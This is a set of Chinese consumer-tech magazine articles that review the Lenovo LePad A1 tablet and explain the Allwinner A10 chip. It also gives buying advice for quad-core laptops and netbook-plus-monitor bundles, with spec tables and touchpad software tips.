与其它千元级平板电脑相比，联想乐Pad A1最大的特点就是多了一项GPS功能，整体的做工更精致，同时还和腾讯、新浪、百度等企业合作，预装了包括QQ、新浪微博、优酷视频等客户端软件，并做到了100%兼容和完美的显示与操作。这是其它千元级平板电脑所不具备的。很多平板电脑用户至今还在为找不到全屏显示的常用软件而发愁。可以说，降价后的联想A1在千元级价位给其他品牌的产品树立了一个全新的标杆。逼迫着与A1规格相近的老产品降价，同时还能让未来的“Pad们”不得不增添更多功能，或者至少要在价格上与A1保持距离。笔者认为，联想乐Pad A1会让今后的国产平板更理性。让更多的厂商在产品的做工设计上投入更多的精力，并将GPS作为标配功能，重视起预装软件的实用性和兼容性。总之，通过联想乐Pad A1的“搅局”，今后其他品牌的平板电脑或在价格上更实惠，或在功能上再添新树，无论如何对我们消费者来说都是件好事，你说呢？

### 千元级平板电脑常用处理器一览

| 品牌 | 芯片型号 | 工艺 | 最高主频 | 内存类型 | 核心 | GPU |
|------|----------|------|----------|----------|------|-----|
| 三星 | S5PV210 | 45nm | 1.0GHz | DDR2 | A8 | SGX540 |
| 德州仪器 | OMAP3622 | 45nm | 1.0GHz | DDR2 | A8 | SGX530 |
| 瑞芯微 | RK2918 | 55nm | 1.2GHz | DDR3 | A8 | GC800 |
| 全志 | A10 | 55nm | 1.5GHz | DDR3 | A8 | Mali400 |
| 晶晨 | AML8726M | 65nm | 800MHz | DDR2 | A9单核 | Mali400 |
| Telechips | TCC8803 | 45nm | 1.2GHz | DDR3 | A8 | Mali200 |
| 飞思卡尔 | i.MX515 | 65nm | 1.0GHz | DDR2 | A8 | Adreno 200 |

## 降价千元引“围观” 联想乐Pad A1是否值得入手

要问近期最火的平板电脑有哪些，刚刚调价千余元的联想乐Pad A1绝对榜上有名。那么，这款采用1GHz处理器的平板性能到底如何，降价后是否真的值得入手了呢？

### 视角、视频播放成软肋

联想A1屏幕分辨率为1024×600像素，比常见的800×480像素细腻很多，无需缩放就能完美显示绝大多数网页。A1屏幕的亮度很足，暖调的色彩看起来比较舒服，但最大的缺陷则在于可视角度偏低，特别是左侧视角非常糟糕，超过40度就会严重偏色。建议联想可以在A1后续的固件中加入控制屏幕旋转方向的功能，最好能在横屏时避开左视角，从软件上弥补屏幕可视角度的硬伤。

小提示：
在联想A1的体验过程中笔者也发现了一些问题，其中最主要的就是A1在充电时触控屏幕的灵敏度会明显下降，有时还会出现触控失灵的问题，需要关闭屏幕再打开几次之后才能恢复正常。以前使用过的部分Android手机也曾出现过充电时触控失灵的问题（多是因为没有使用原装充电器造成的），希望联想可以在今后的固件中解决这个问题。
德州仪器OMAP 3600系列处理器的视频播放能力一般，只支持有限几种格式视频的硬解，类似RMVB、MKV、AVI等视频格式的文件只能调用系统的软解。综合来看，A1可以流畅播放720P标准的AVC编码MP4格式，或低码率的RMVB视频，但其它格式就会出现卡顿或声音画面不同步的问题。就视频播放的表现来看联想A1远逊于主打视频的国产平板方案，只适合欣赏在线视频，或者600MB左右网络下载视频。此外，笔者强烈建议大家选用MoboPlayer辅助A1播放视频，个人感觉是Android下最好的第三方播放程序。

### 游戏兼容性是亮点

联想A1搭载了德州仪器OMAP 3622处理器，集成PowerVR SGX530显示核心，内置512MB运行内存（RAM），整体规格和性能与摩托罗拉旗下的里程碑2相似。理论上也和里程碑2（ME722）、Defy（ME525）拥有相同的游戏兼容性。在超级兔子测试中，联想A1的成绩为2421，理论性能逊于国产的RK2918和全志A10等芯片。而多点触控软件测试的结果也表明，A1仅支持2点触控。想和朋友双人打《水果忍者》的感觉会差一些。根据笔者的测试，联想A1对Android平台游戏的兼容性明显优于采用RK2918等国产方案的平板产品。类似《捕鱼达人》、《愤怒的小鸟》、《水果忍者》等较新的游戏均可全屏运行，而绝大多数Gameloft出品的高清3D游戏也能完美运行。比如《极品飞车14》、《实况足球PES2011》、《地牢猎手2中文HD高清版》，其它的诸如《武士》、《空中打击》等游戏也能较为流畅的运行。需要注意的是，笔者所提到的完美运行只是可以全屏显示，玩一些高清3D游戏和《武士》时会稍有卡顿的感觉，但整体还算流畅。此外，联想A1并非100%兼容针对德州仪器优化的高清3D游戏，比如《都市赛车6》。在朋友的里程碑2上能完美运行，但在A1上则会出现花屏的问题。如果有同学喜欢这款大作，可以多关注一下iMP3、机锋网社区中联想A1的版块，寻找兼容A1的游戏数据包文件。联想A1非常适合上网，WiFi无线的信号强度和稳定性还是非常不错的，和笔者家里的无线路由隔一堵墙还是满格信号。在安装Flash插件后也可正常显示网页中的Flash动画插件，通过随机预装的搜狐、优酷等客户端可较为流畅地播放高清画质的视频。不过，A1在看网页时的流畅度并非完美，拖动画面或放大缩小时有一点点卡顿的感觉。

### 强化的硬功能和软实力

也需联想深知A1的性能一般，因此着重强化了“硬功能”和“软实力”。“硬功能”方面加入了镁制防滚架，机身更坚固；屏幕感光元件，可根据环境光线调节亮度；内置GPS模块，对开车一族来说极具吸引力。“软实力”方面，A1不像乐Pad S1采用了深度定制的LeOS系统，只是在原生Android 2.3.4的基础上加入了四叶草的桌面，确保了原生应用的兼容性。其次，A1随机还预装了丰富的学习、娱乐和生活类的程序，买来就能直接上手。举个例子，联想A1仅标配了一枚不支持自动对焦的300万像素摄像头，用Android原生相机程序拍照效果非常一般。因此联想A1出厂就预装了定制的Camera360，利用该软件的防抖拍摄功能弥补了不支持自动对焦的缺陷，拍照效果明显提升。虽然微距还是不太理想，但绝对比原生相机程序好很多。值得一提的是，联想A1的四叶草界面支持自定义功能，我们可以根据使用习惯将最常用的添加在四叶草的“叶片”上。当然，你也能像Android手机一样，在A1上安装“GO桌面”等launcher来更换桌面的样式，打造出自己熟悉并习惯的操作界面。

### 降价以后更超值

虽然联想A1的视频播放和屏幕视角方面的表现不足，但就功能而言却是千元价位平板中最丰富的。特别是GPS功能方便了更多的驾车人士，整体做工也远非二线品牌的平板产品可比。在质量方面更让人放心。降价以后的联想A1已经显露出了不错的性价比，2GB/16GB的版本分别只卖1000/1399元，笔者的感觉还是物有所值的。如果你并非高清视频的爱好者，希望选一款全能型的平板产品，联想A1应该是你不错的选择。

小提示：2GB还是16GB？
联想A1有两个容量版本，价差在400元。笔者的看法是2GB版足以（可全部用于安装程序），因为16GB的版本也被分成了2GB左右的程序存储空间（只有这部分空间能安装程序）和12GB左右的存储空间（类似内置的存储卡），性价比远不如2GB低配版 + 150元左右另配一枚16GB的外置存储卡。

## 向“未来”投资 笔记本不妨一步到位选四核

自2006年双核处理器进驻笔记本领域后，在接下来的5年间主流笔记本仍在双核时代徘徊，究其原因就是四核处理器始终定位高端，而且针对多核优化的软件游戏也不多，四核优势在日常应用中难以体现。
随着AMD A系列APU以及Intel全新SNB处理器的上市，四核笔记本的价格变得越来越亲民，5000元以内的四核产品并不鲜见，选购四核笔记本的最佳时机已到。但是，你知道如何挑选吗？

### 凭什么选择四核

简单来说，CPU就好似笔记本中的“万能工厂”，所有任务都需要它来处理。其内部的核心数量就好似生产线，当某项任务下达后，生产线越多执行的效率也就越快。从专业的测试角度来看，四核处理器在文件压缩、视频编码、高清解码这几项负荷比较重的应用中要强于双核处理器。从实际的操作感受来看，当我们同时运行听歌+下载+上网+游戏等程序时，多核心的优势就显露无疑了，比如用双核处理器在进行压缩/解压大量文件、转换视频时再进行游戏或工作时就会感到笔记本的速度明显减慢，但换成四核处理器再进行同样的操作就会有明显改观。
需要正视的是，并非所有软件都是针对多执行线程设计（对多核心优化不佳），时下绝大多数游戏通常也仅支持单执行线程或仅对双核进行了优化，此时决定运行速度的就变成CPU的绝对主频了，比如在玩《魔兽世界》、《使命召唤7》等游戏时，3.0GHz的双核要比2.6GHz的四核更快，而在游戏/软件启动速度，图片加载转换等方面目前也无法发挥出更多核心的优势。但是，随着多核CPU（四核或四核以上）的逐渐普及，与之对应的程序也越来越多，比如EA最新的《极品飞车15：变速2》就对四核以上的CPU进行了深度优化，多核心可并行运算从而减轻了单个核心的负载，游戏帧数明显高于双核平台。相信未来会有更多游戏大作加入到多核阵营，现在的投资兴许就能为你的笔记本减轻不少负担呢。

### 表1 四核酷睿i7 规格表
| 型号 | 默认主频 | 睿频 | 三级缓存 |
| ---- | ---- | ---- | ---- |
| i7-840QM | 1.86GHz | 3.2GHz | 8MB |
| i7-820QM | 1.73GHz | 3.06GHz | 8MB |
| i7-740QM | 1.73GHz | 2.93GHz | 6MB |
| i7-720QM | 1.6GHz | 2.8GHz | 6MB |
> 集成 GMA HD 显示芯片

### 表2 二代四核酷睿i7 规格表
| 型号 | 默认主频 | 睿频 | 三级缓存 |
| ---- | ---- | ---- | ---- |
| i7-2860QM | 2.5GHz | 3.6GHz | 8MB |
| i7-2760QM | 2.4GHz | 3.5GHz | 6MB |
| i7-2720QM | 2.2GHz | 3.3GHz | 6MB |
| i7-2670QM | 2.2GHz | 3.1GHz | 6MB |
| i7-2630QM | 2.0GHz | 2.9GHz | 6MB |
> 集成HD3000 核芯显卡

AMD阵营的四核CPU包括去年推出的隶属于“Danube”多瑙河平台中的Phenom II（见表3）以及刚上市不久的A6/A8系列APU（见表4）。其中Phenom II早已沦落低端，搭载N970处理器的ACER AS5552等产品的价格甚至不足3000元，开创了史上最低价位四核笔记本的历史。而A6/A8系列APU的定位也不高，凭借内部集成高性能的HD6000G系列显卡并支持混合交火的特性，帮AMD在中低端市场杀出了一条血路，目前搭载A6-3400M的笔记本价格多在4000元以内，而配备A8-3500M的产品也不足4500元。

### 表3 AMD Phenom II 系列处理器规格表
#### AMD Phenom II 黑盒版处理器
| 型号 | 主频 | TDP | 三级缓存 |
| ---- | ---- | ---- | ---- |
| X920 | 2.3GHz | 45W | 2MB |
#### AMD Phenom II 四核处理器
| 型号 | 主频 | TDP | 三级缓存 |
| ---- | ---- | ---- | ---- |
| N970 | 2.2GHz | 35W | 2MB |
| N950 | 2.1GHz | 35W | 2MB |
| N930 | 2.0GHz | 35W | 2MB |
| P940 | 1.7GHz | 25W | 2MB |
| P920 | 1.6GHz | 25W | 2MB |
> AMD Danube 平台，搭配 M880G 芯片组，集成 Mobility Radeon HD 4200 显卡

### 表4 A系列APU 规格表
| 型号 | 默认主频/最大主频 | 二级缓存 | GPU型号 | 流处理器数 | GPU频率 |
| ---- | ---- | ---- | ---- | ---- | ---- |
| A6-3400M | 1.4GHz/2.3GHz | 4MB | HD6520G | 320 | 400MHz |
| A6-3410MX | 1.6GHz/2.3GHz | 4MB | HD6520G | 320 | 400MHz |
| A8-3500M | 1.5GHz/2.4GHz | 4MB | HD6620G | 400 | 444MHz |
| A8-3510MX | 1.8GHz/2.5GHz | 4MB | HD6620G | 400 | 444MHz |
| A8-3530MX | 1.9GHz/2.6GHz | 4MB | HD6620G | 400 | 444MHz |
> 俗称A 系列 APU，集成 HD6000G 系列显卡

### 一步到位的必要性

对笔记本电脑来说，升级内存和硬盘不是难事，但为本本“换心”的难度就犹如上青天了。之所以笔记本很难升级CPU，一方面是从正规渠道无法购买到兼容笔记本的移动处理器（只能在淘宝，或者二手渠道购买，有一定的风险）；
另一方面就是升级难度较高，拆装散热模块时容易造成CPU的损坏。因此，如果你在3、4年内不打算换新本本，在预算充裕的情况下可以优先挑选配备四核心CPU，以及中高端独立显卡的型号（显卡几乎无法升级，一步到位更重要），为将来的游戏和软件留出足够的冗余空间，避免出现因CPU不给力而运行不流畅的窘况出现。

### 四大产品系列如何选择

四核很贵吗？其实不然。在笔记本领域，目前Intel和AMD都有丰富的四核CPU可选，但据型号和产品定位的差别，实际产品的售价也从不到3000元到万元以上。可见，如果你想入手一款四核笔记本，还得再下一番功夫，学会辨别不同四核CPU的优劣，并根据自身的预算和需求锁定最适合自己的产品。
Intel阵营中常见的四核处理器包括Nehalem架构的第一代酷睿i（见表1，如i7-740QM）以及Sandy Bridge架构的第二代酷睿i（见表2，如i7-2630QM）处理器，后者大幅强化了集成的图形核心，HD3000核芯显卡的性能已经足以比肩入门级的独立显卡，在改进的睿频2.0技术的帮助下自动超频变得更智能。随着搭载i7-2630QM处理器的笔记本逐步降至5000元左右，采用i7-740QM等老酷睿i处理器的产品已经失去了性价比优势，因此在挑选Intel四核平台笔记本时，笔者建议直接挑选SNB架构的新品，并与GT540M或HD6630M以上级别的独立显卡搭配，获得最佳的性能体验。

### Intel 更强 AMD 划算

就CPU的理论性能而言，AMD A6系列APU逊于SNB架构的酷睿i3（如i3-2330M），而A8系列APU也无法战胜酷睿i5（如i5-2410M），但其四核芯的特质却是酷睿i3和i5所无法比拟的。而且很多笔记本厂商还为此类笔记本额外添加了HD6600M级别的独立显卡，在混合交火的模式下获得更强的游戏性能，而最重要的是在价格上与Intel四核平台笔记本也存在千元左右的价格优势，非常适合预算在4500元以内，但又想赶上四核大趋势的用户。而Intel的四核i7处理器则具备当仁不让的性能优势，虽然价位稍高，但更适合对性能要求苛刻的用户。

### 联想(Lenovo) Z475Am-AS1

14 英寸 + A6-3400M + 2GB + 500GB + HD6470M



前文说过，AMD上一代Phenom II四核只适用预算非常有限的用户，如果你的口袋并非超级紧张，笔者还是建议直接选择A6-3400M级别的APU，而联想Z475Am-AS1则算是搭载此款处理器中最超值的机型之一，与HD6470M组建混合交火后，在中等画质下流畅运行《星际争霸2》已不是问题，如果你还能再添点资金，再购买一条2GB内存会获得更强的游戏性能。

### 惠普Pavilion G4-1207AX

14 英寸 + A8-3500M + 2GB + 500GB + HD6470M



如果你感觉A6不上档次，但预算又不到4000元，不妨留意一下搭载AMD A8-3500M的机型，比如这款惠普G4-1207AX，在额外武装HD6470M的情况下价格也不足4000元，性价比很高。而且A8-3500M所集成的HD6620G显卡本身的性能就已经很强，在外出时可以将笔记本设定在省电GPU，关闭混合交火模式，还能帮你节省更多电力，而且性能也够用呢。

### ACER AS5750G-2632G50Mkk

15.6 英寸 + i7-2630QM + 2GB + 500GB + GT540M


就CPU本身的运算性能来看，A8级别的APU与酷睿i7四核处理器的差距还是较为明显的，如果你非常注重性能，不妨再添一点预算，在5000元左右就能买到搭载i7-2630QM处理器的ACER AS5750G了，这款产品还配备了GT540M显卡，带有数字小键盘，性能和实用性都非常不错。唯一可惜的就是键盘手感比较一般，如果你很在意手指的感受，还可以考虑ACER的5755G系列，整体做工较5750G提升了一大截。

### 华硕A43EI263SA-SL

14 英寸 + i7-2630QM + 4GB + 500GB + HD6730M



高配笔记本的散热问题一直困扰着不少同学，而华硕A43系列则通过独家Icecool设计改善了与用户接触最多的掌托区域发热，长时间使用手腕也很舒适。而A43EI263SA-SL则是此系列最具性价比的型号，HD6730M独显的性能足以和更高端的GT550M比肩，近期在京东商城购买此款产品还能免费获赠额外的4GB内存，总共8GB的内存容量，相信可以满足未来几年的所有应用需求了。

> 小提示：
无论是SNB集成的核芯显卡，还是APU内部的HD6000G（包括混合交火模式），想让它们发挥出最理想的性能，必须要让笔记本工作在双通道内存模式，即必须要装两条内存，否则集成显卡性能只能发挥出60%~80%左右。

## 1.5GHz的平板新方案 冷静看待“A10”处理器

最近，不少国产平板厂商都推出了主频高达1.5GHz的“A10”方案新品，而且价格普遍低于800元。那么，这个A10是否比Cortex-A9还先进？1.5GHz的主频又能否代表最强的国产平板性能呢？别着急，本文就将为您还原“A10”方案背后的秘密。

### 此A10非彼Cortex “A10”

大家都知道，Cortex-A8是很强的单核ARM处理器，而Cortex-A9则是多核ARM处理器的代名词，这个A10难道会是“Cortex-A10”吗？当然不是，A10只是来自珠海全志科技推出的主控芯片，其本质还是Cortex-A8，只是取了一个容易让人浮想联翩的名字而已。因此大家不要被“A10”所忽悠，它只是个方案名称（就像瑞芯微RK2918，高通MSM8255），不是ARM处理器的架构代号！此外，全志还给A10取了一个所谓的“众核技术”，说白了就是在一颗芯片中加入了CPU+GPU+VPU+DPU+VE等模块（其它主控芯片也都是这么做的），纯属噱头，不必当真。

### 主频能达到1.5GHz？

全志A10在宣传中还有一大卖点，就是最高主频可达1.5GHz，就数值来看的确是Cortex-A8之最。但请注意，1.5GHz是“最高”主频，现在上市的采用A10方案的平板电脑的默认主频则多定在了1GHz左右，因为主频更高将面临电压和功耗的考验。举个例子，三星S5PC110处理器在默认1GHz主频时的电压为1.25V，超频到1.5GHz时电压也不过1.4V，而全志A10在1GHz主频时的电压就达到了1.4V（见表1），厂商出于稳定的考虑才不让A10跑在最高主频状态，将来最多也就是可以提升到1.2GHz左右。

### 和三星i9100一样的GPU？

全志A10内部集成的GPU图形核心为Mali-400，三星i9100手机所用的Exynos 4210双核处理器也集成了Mali-400，难道说全志A10的3D性能可达到三星i9100的级别？现实是很残酷的，比如晶晨AML8726M所集成的GPU也是Mali-400，但其3D表现还远不如三星i9000所集成的PowerVR SGX540，与i9100相比的差异就更明显了。究其原因，还是在于不同芯片中的Mali-400图形模块存在细微差异：简单来说，Mali-400是由“Vertex”和“Fragment”两个单元组成，前者影响三角形生成率，后者则体现在填充率上（表2）。此外，Mali-400和显卡一样，核心频率越高性能自然也就越强。

表1 几种处理器默认/超频后频率对比

| 制造工艺 | 55nm | 55nm | 45nm | 65nm |
| --- | --- | --- | --- | --- |
| 默认主频/电压 | 1GHz@1.4V | 1GHz@1.275V | 1GHz@1.25V | 800MHz@1.28V |
| 超频后/电压 | --- | --- | 1.5GHz@1.4V | --- |

表2 几种GPU参数对比

| 架构 | Cortex-A8 | 单核Cortex-A9 | 双核Cortex-A9 |
| --- | --- | --- | --- |
| Vertex单元 | 1 | 1 | 1 |
| 三角形生成率 | 32M/s左右 | 25M/s | 26.7M/s |
| Fragment单元 | 1 | 1 | 4 |
| 填充率 | 250M/s左右 | 250M/s | 1066M/s |
| GPU频率 | 320MHz左右 | 250MHz | 267MHz |

### A10产品低价面世

与RK2918和AML8726-M等方案刚“出道”时的价格虚高相比，第一批采用全志A10方案的产品价格还是比较厚道的，比如昂达VX610W加强版（499元）、台电P76（599元）和艾诺NOVO7（699元），就性价比而言是几大国产平板方案中最高的。但为了节省成本，不少厂商会选择电阻屏与全志A10方案搭配（比如VX610W加强版和P76），影响了在触控时手感和类似《愤怒的小鸟》等游戏中的表现（电阻屏只能实现单点或模拟双点，点击准确性和电容屏是无法比拟的）。因此，除非你的预算特别紧张，否则笔者还是建议大家直接挑选配备电容触控屏幕的产品，在需要进行大量滑动、触摸等操作的Android软件应用以及网络浏览等方面，电容触摸所带来的操控体验更为出色，像《水果忍者》这类游戏时也能体验两人同时对战的乐趣了。

### CFan推荐产品

昂达VX610W豪华版：与VX610W加强版相比，豪华版的VX610W改用了支持五点触控的电容屏幕，只是分辨率依旧保持在标准的800×480像素，如果可以达到1024×600就更好了。这款产品的外观设计和加强版一致，并内置TV-OUT、WiFi无线以及OTG连接等功能，是A10方案产品中性价比最出色的产品之一。

艾诺NOVO7领先版：艾诺NOVO7的硬件规格与昂达VX610W豪华版类似，同样是7英寸五点触控的电容屏，内置512MB内存和8GB存储空间的组合，但却加入了前后双置摄像头以及HDMI输出端口，可以方便地将画面输出到大尺寸电视或显示器上，价格虽然贵了一些，但整体的易用性更为出色。

## 免费资源巧利用 教你用好笔记本触摸板

对笔记本来说，触控板应该算是最容易被用户忽略的硬件了，90%以上的用户在连接鼠标后都会将其打入“冷宫”，触控板偶尔也会在打字误碰到它时来“报复”使用者。其实，我们可以有选择的临时屏蔽触控板减少误操作，而结合一些小软件，触控板也能免费让你实现更多实用的功能呢。

### 小提示：

本文所涉及的功能，需要笔记本安装Synaptics触控板驱动：http://tinyurl.com/3g44z37

### 别让触摸板捣乱

触控板离键盘很近，打字时如果无意触碰到触摸板，会让你的鼠标不知道移动到了哪里，使得输入的文字完全错乱。在触摸板附近增加了屏蔽按钮还好，而对于大部分未加屏蔽按钮的笔记本用户而言，虽可在硬件管理器中屏蔽触摸板，但在使用时又需重新启用，非常麻烦。如果你不希望触控板在打字时“捣乱”，不妨用Touchpad Blocker软件（下载地址：http://tinyurl.com/5uv7ema）将其临时屏蔽。运行Touchpad Blocker程序后，鼠标右键系统托盘上的程序图标并选择“Settings”即可调出程序设置。在该设置窗口中，最重要的是选中“Block accidental taps and clicks”复选框，再在“Threshold in milliseconds”中设置使用键盘时临时屏蔽触摸板的时间，默认500毫秒（当你误碰触控板的时间小于这个值，软件会认定此次操作无效）。另外如果需要暂时禁用Touchpad Blocker对触摸板的控制，则可根据在程序设置的“Keyboard shortcut to switch blocker”选项中定制的快捷键，默认是Ctrl+F9，按下后快速禁用。若要重新启用该程序功能，则再次使用指定快捷键即可。为了使用方便，最好也选中“Automatically run program on startup”复选框以便电脑启动时自动装载该软件。

### 触摸板变身手写板

对于年纪比较大的长辈而言，拼音五笔等打字方法远没有用手写板来的简单快捷。借助“兰亭笔记本触摸板手写程序”（下载地址：http://tinyurl.com/5uqsr s7）笔记本的触控板就能变身“手写板”，给你节省一笔开销。运行该软件后会生成一个复古的对话框，按“Alt+F5”可在键盘输入和触摸板输入之间切换。此时打开文本编辑器，就可以在触摸板上手写了。默认情况下输入的是汉字，输入完成后兰亭手写会自动识别，并在“候选”框中可以看到几个字，按向下箭头可以找到更多，点选后会自动替换已输入的字符。为了更方便地输入，我们可以在同音字中找相应字，这可以给提笔忘字的人以方便。另外还提供了“联想词组”、“联想语句”候选框，可以加快输入速度。如果想输入特殊符号，则有“特殊符号”窗口供使用，常见的特殊字符都可以找到。如果要输入英文字符，则可以将“汉”转“英”状态，软件会优先考虑识别为英文。如果想让软件更适合自己，则可以单击左侧齿轮图标进入“功能设置”窗口，在该窗口可以设置“识别范围”、“识别时间”、“笔迹类型”、“输出方式”、“编码转换”等功能，基本上一看就懂。设置完成后点击“保存”即可。

### 触摸板也玩手势

鼠标手势已深入人心，触摸板也不甘落后。通过Synaptics公司推出的“Scrybe”免费软件（下载地址：http://tinyurl.com/6zfsbx9），再结合该公司提供的驱动程序，就可以通过手势快速启动软件或打开网页了。运行“Scrybe”的前提是笔记本必须是synaptics的触摸板，否则就免谈了。接下来需要安装支持多点触摸的驱动程序（下载地址：http://tinyurl.com/6xro52n），解压后运行其中的“Setup.exe”即可安装驱动，接下来再安装“uscrybe for synaptics”应用程序。重新启动电脑后系统会自动运行“Scrybe”，其中有“Synaptic定点设置”和“Scrybe设置”两个程序，在“Scrybe设置”中你可以查看手势列表和教程，进行练习等。接下来就能使用鼠标手势功能了，首先按住“Shift+Ctrl”键，同时将一个手指放在触摸板上，绘制符号以执行所需操作。当你按下手指时，屏幕就会显示符号绘制区域，而当你的符号被识别之后，符号绘制区域就会消失，与该符号相关联的活动将被执行，记得在完成绘制后才能释放“Shift+Ctrl”键。如果你想自定义触摸板手势，打开“Scrybe设置”窗口，在左侧手势栏中选择一个手势，然后点击界面左下角的小扳手按钮。在弹出的手势编辑窗口中点击“启动”栏中的下拉菜单，选择“Choose a program”就能设定快速启动的程序了。

(文/桔色心情)

## 3000元的实用之选 上网本“套装”选购攻略

小张找到了一份摄影助理的工作，每天都需要扛着相机在郊外给客户拍照，临时用笔记本筛选照片，回家后还得自己PS客户挑选的照片，好不辛苦。为了便于员工办公，公司给了小张3000元的预算用于购置笔记本。就这么一点预算，什么样的笔记本才能符合小张的需求呢？

3000元是不少家庭或用户对选购电脑的最高上限，可是，这个价位可以买到什么呢？要性能吧，这点钱根本不够用，DIY攒机又无法移动办公；要实惠吧，这价位的笔记本性能的确不给力，而且屏幕显示质量也很一般。其实只要你对游戏不感冒，并有着和小张类似的使用需求，不妨将目光投向小巧实惠的上网本，3000元左右的“上网本套装”绝对可以让你获得事半功倍的体验。

### 为什么选择上网本

3000元左右虽然可以买到配备英特尔SNB处理器（多为SNB核心的奔腾双核或赛扬双核，集成HD3000核芯显卡）甚至GT520M级别独立显卡的笔记本，但这些产品大都隶属各品牌旗下的低端家族，在整体做工方面可能显得不那么精致，也会存在些许功能上的缺失，便携性更难以令人满意。此外，3000元的笔记本最多也就是1366×768的标准分辨率，限于成本的制约，屏幕在色彩表现和可视角度方面的表现一般。就性能而言，这类产品可以在较低画质下体验大型3D游戏，但想在画质和速度之间取得平衡就不太现实了，属于高不成低不就的范畴。

反观上网本，虽然在性能上差强人意，但却拥有传统笔记本所无法比拟的优势：外出时可以轻松塞进包包中，不会成为旅途中的累赘；处理器功耗极低，可充当下载机的角色24小时不间断下载电影；机身小巧且配有HDMI接口，可像HTPC一样藏在角落并和家里的液晶电视相连。所谓性能较差也只是相对而言，玩3D游戏肯定不是上网本的强项，但论及日常的上网、制表、PS绘图、网页游戏等基础操作对它都没有太大压力。目前上网本的价格普遍在1600元~2000元之间，省下来的预算还可以再另配一款全高清级别的显示器，其显示效果绝非普通笔记本可比，可以更好地还原图片上的每一处细节。如果你的需求和小张类似，“上网本+液晶显示器”的套装无疑更为实用。接下来，笔者就简单谈一谈如何挑选和上网本搭档的显示器和键鼠外设，以及上网本连接显示器后，在使用中的一些经验和技巧。

### CFan推荐上网本

### ACER AO522-C6Ckk

基本配置：

AMD C60+1GB+250GB+HD6290， 1.3kg

虽然屏幕仍为10.1英寸，但ACER AO522-C6Ckk的分辨率却达到了1280×720像素，显示效果更细腻。这款产品另一大亮点在于采用了AMD C60处理器，集成HD6250显示核心，而且CPU与GPU都支持动态超频，在不牺牲稳定性的前提下提升游戏性能。性能上，AO522-C6Ckk可以在中低画质下较为流畅地运行《魔兽世界》级别的大型网游，与采用Atom处理器的上网本相比更适合热爱1080P高清和主流3D游戏的用户。

### 三星N145-JP05CN

基本配置：

Atom N455+1GB+320GB+GMA3150， 1.24kg

三星N145并没有采用双核处理器，不过单核的Atom N455（1.66GHz）性能也说得过去，标配的6芯锂电池可以提供最长8.5小时的续航能力。与其它上网本相比，三星N145的特色是外观设计颇为取巧，在机身周边配有红色夹心层装饰，一体化设计风格的屏幕转轴，也可更加方便的调节屏幕的角度。

### 华硕EeePC 1001PXD

基本配置：

Atom N455+1GB+250GB+GMA3150， 1.1kg

华硕EeePC 1001PXD在配置上并无优势，但论轻薄程度，在上网本中绝对属于轻盈级选手。这款产品的重量只有1.1kg，最薄处也仅有2.6cm，圆滑纤薄的机身曲线也便于外出携带。可惜的是，为了实现极致轻薄，这款产品仅标配3芯锂电池，续航时间大约在4小时左右。

### 上网本的“显示搭档”

上网本的轻薄便携优势可以让他成为你外出时的贴心伴侣，但要在家中看电影或长时间上网，其过小的屏幕和较低的分辨率会严重影响视觉效果。好消息是，现在绝大多数液晶电视都配有HDMI接口，而大尺寸的液晶显示器价格也不算贵，它们都能帮助上网本拓展视野，在家中为你实现更震撼的视觉享受。

在切割成本和用户认知的帮助下，如今显示器市场基本已经是16:9的天下，与纠结于显示比例相比，不如将精力放在显示效果与用眼舒适的角度上。就显示效果而言，推荐支持全高清分辨率（1920×1080像素）、采用LED背光（省电）、并配备IPS显示屏面板（现实效果较好）以及HDMI接口的产品。就用眼舒适来看，则应优先挑选大点距的产品（看文字不累，适合长时间使用）。

目前21.5及以上尺寸的显示器都可达到全高清的标准，其中23/23.6/24英寸比较适合长时间使用，其中23英寸的点距虽然相对较小，但其显示的文字并没有小到很夸张，而23.6英寸和24英寸的点距非常接近，肉眼很难看出区别。因此，笔者建议为上网本找一款23英寸或以上尺寸的显示器搭档，弥补上网本自身显示性能的缺陷。

| 尺寸 | 16:10分辨率及点距 | 16:9分辨率及点距 |
| --- | --- | --- |
| 18.5英寸 | 无 | 1366×768/0.300mm |
| 19英寸 | 1440×900/0.283mm | 无 |
| 20英寸 | 1680×1050/0.258mm | 1600×900/0.276mm |
| 21.5英寸 | 无 | 1920×1080/0.248mm |
| 22英寸 | 1680×1050/0.282mm | 无 |
| 23英寸 | 无 | 1920×1080/0.266mm |
| 23.6英寸 | 无 | 1920×1080/0.272mm |
| 24英寸 | 1920×1200/0.270mm | 1920×1080/0.277mm |
| 27英寸 | 无 | 1920×1080/0.311mm |
| 27.5英寸 | 1920×1200/0.309mm | 无 |

点距数据仅供参考

### CFan推荐显示器

ACER A231H LBbmi

ACER A231H价格不算便宜，但却采用了LED+IPS组合的屏幕，对比度更是高达1亿:1。值得一提的是，A231H内置两组HDMI端口，在与上网本连接的同时还可接驳类似PS3等游戏机，而其内置的音箱也能帮助上网本发出更震撼的音效。

| 名称 | 基本配置 | 特色 | 价格 |
| --- | --- | --- | --- |
| AOC E2351F | 23英寸LED+TN屏幕 | 可变身数码相框的造型 | 899元 |
| 优派 VA2405-LED | 23.6英寸LED+TN屏幕 | 采用全新WLED技术 | 1099元 |
| 戴尔 U2312Hm | 23英寸LED+IPS屏幕 | 屏幕可旋转方向 | 1399元 |
| 三星 S24R350H | 24英寸LED+TN屏幕 | 支持5种视角调节模式 | 1499元 |

### 上网本的“控制搭档”

当上网本与显示器或液晶电视连接后，如果你还在用上网本自身的键盘打字，除了手感不佳以外，上网本自身的屏幕也会阻碍你的视线。此时最佳解决方案就是另配一套无线键鼠套装，远程对上网本进行操作，还可以将上网本藏在显示设备后面，保持桌面的整洁。

为上网本挑选键盘和鼠标，尽量选择同一品牌的键鼠套装，这样用一个Nano接收器就能同时连接两个设备，从而减轻上网本USB接口的负担。其它就没什么可说的了，只要你用起来手感够舒服，对外观造型满意就可以了。

### CFan推荐键鼠套装

雷柏8300 HTPC无线套装

绝大多数笔记本想调节音量都需要同时按下“Fn+组合键”的形式，用外置键盘时再操作上网本自身键盘肯定不太合适。而雷柏8300无线套装则可轻松解决上述难题，其配备了多达20个多媒体及OFFICE快捷键，键盘自带滚轮及音量旋钮，我们可以提前将常用的功能设置其中以便日后操作，非常方便。

| 名称 | 特色 | 价格 |
| --- | --- | --- |
| 富勒KA99G | 标准工况下一节电池可使用2年 | 89元 |
| 多彩8500G | 带金属拉丝效果的宽大手托 | 119元 |
| 罗技MK270 | 优联技术可同时与6款罗技无线产品相连 | 149元 |

### 上网本也能“一心两用”

